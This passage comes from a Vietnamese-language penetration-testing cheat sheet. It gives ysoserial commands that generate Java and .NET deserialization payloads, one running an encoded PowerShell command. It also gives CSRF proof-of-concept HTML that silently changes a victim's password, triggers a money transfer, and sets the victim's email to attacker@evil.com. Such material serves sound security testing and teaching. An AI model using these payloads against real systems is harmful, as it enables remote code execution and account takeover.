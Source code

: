 ### Java deserialization attacks:

```
# Sử dụng ysoserial để tạo payloads
java -jar ysoserial.jar CommonsCollections1 "whoami" > payload.bin

# Chuyển đổi thành Base64 để gửi
base64 -w0 payload.bin
```

### .NET deserialization:

```
# Sử dụng ysoserial.net
ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o base64 -c "powershell -e BASE64_ENCODED_COMMAND"
```

## 3.8. Cross-Site Request Forgery (CSRF)

CSRF ép người dùng thực hiện các hành động không mong muốn trên ứng dụng web nơi họ đã xác thực, thông qua yêu cầu giả mạo.

### CSRF PoC examples:

```html
<!-- Ví dụ CSRF POST -->
<html>
  <body onload="document.forms[0].submit()">
    <form action="https://target.com/change_password" method="POST">
      <input type="hidden" name="new_password" value="hacked">
      <input type="hidden" name="confirm_password" value="hacked">
    </form>
  </body>
</html>

<!-- Ví dụ CSRF GET -->
<img src="https://target.com/transfer?to=attacker&amount=1000" width="0" height="0">

<!-- CSRF với XHR request -->
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "https://target.com/api/update_profile", true);
  xhr.setRequestHeader("Content-Type", "application/json");
  xhr.withCredentials = true;
  xhr.send(JSON.stringify({
    "name": "Hacked User",
    "email": "attacker@evil.com"
  }));
</script>
```

### Bypass CSRF protections:
